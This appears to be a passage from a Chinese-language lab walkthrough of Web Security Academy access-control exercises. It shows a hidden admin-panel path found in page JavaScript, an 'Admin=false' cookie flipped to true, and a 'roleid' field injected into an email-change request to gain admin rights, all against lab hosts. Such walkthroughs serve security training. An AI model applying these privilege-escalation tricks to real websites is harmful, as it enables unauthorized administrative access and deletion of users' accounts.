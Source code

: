 ```js
var isAdmin = false;
if (isAdmin) {
    var topLinksTag = document.getElementsByClassName("top-links")[0];
    var adminPanelTag = document.createElement('a');
    //关键点：/admin-gbo171，直接访问即可删除相关用户
    adminPanelTag.setAttribute('href', '/admin-gbol71');
    adminPanelTag.innerText = 'Admin panel';
    topLinksTag.append(adminPanelTag);
    var pTag = document.createElement('p');
    pTag.innerText = '|';
    topLinksTag.appendChild(pTag);
}
```



## 3.3 User role controlled by request parameter

由请求参数控制的用户角色



关键点，服务端判断用户的角色是通过请求Cookie中的参数进行验证的，这里存在一个可伪造的点：

```
GET /academyLabHeader HTTP/2
Host: 0af90017049ab0ba8294e3b5008300e7.web-security-academy.net
//关键点
Cookie: Admin=false; session=Qcy5YGv0wj7COOzWo7vwvMiUtf8kkink
```

将以上false改为true即可执行管理员相关的权限。



## 3.4 User role can be modified in user profile

可以在用户配置文件中修改用户角色



在修改邮箱的HTTP请求时，服务器会响应的响应内容如下：

```json
{
  "username": "wiener",
  "email": "admin@qq.com",
  "apikey": "h0sK5ofpZIB8J8Ym6iOls3nQrZ6nECmu",
  "roleid": 2
}
```

关键点是`"roleid": 2`猜测服务端可能是通过这个参数来验证请求的，如果将这个参数添加到修改邮箱时的请求当中时，那这时候我们的权限是否会变更为对应的id？

在修改邮箱请求的HTTP请求：

```http
POST /my-account/change-email HTTP/2
Host: 0a470053044c3749802954d6004e0028.web-security-academy.net
Cookie: session=6sdA6ws2mUlqxpiA4G7JhF81dfT4RfxL

{
	"email":"admin@qq.com",
	"roleid": 2
}
```
